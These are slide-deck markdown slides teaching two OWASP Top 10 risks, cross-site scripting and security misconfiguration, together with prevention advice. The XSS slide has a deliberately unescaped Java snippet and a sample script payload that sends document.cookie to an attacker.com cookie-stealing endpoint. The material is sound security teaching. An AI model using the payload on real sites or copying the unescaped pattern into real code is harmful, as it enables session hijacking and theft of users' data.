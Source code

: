 
# Cross-Site Scripting (XSS)
Number 7

+++

## What's that?

* Application includes untrusted data in a new web page without validation or escaping
* Application updates an existing web page with user supplied data using a browser API that can create JavaScript

+++

### Example:

```java
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";

'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.
```

@[1-2](The application uses untrusted data in the construction of the following HTML snippet without validation or escaping)
@[4-6](The attacker modifies the ‘CC’ parameter in his browser and executes a script)

Note:
Double click!

+++

## How do I fight it?
- Use safe frameworks that automatically escape for XSS by design (ex. ReactJS) |
- Validate inputs |
- Escape outputs |

Note:
Links: https://www.owasp.org/index.php/Abridged_XSS_Prevention_Cheat_Sheet
---

# Security Misconfiguration
Number 6

+++

## What's that?

Name says it all, but for example:
- Insecure default configurations |
- Misconfigured HTTP headers |
- Error messages containing sensitive information |
- Not patching or upgrading systems, frameworks, dependencies, and components in a timely fashion |
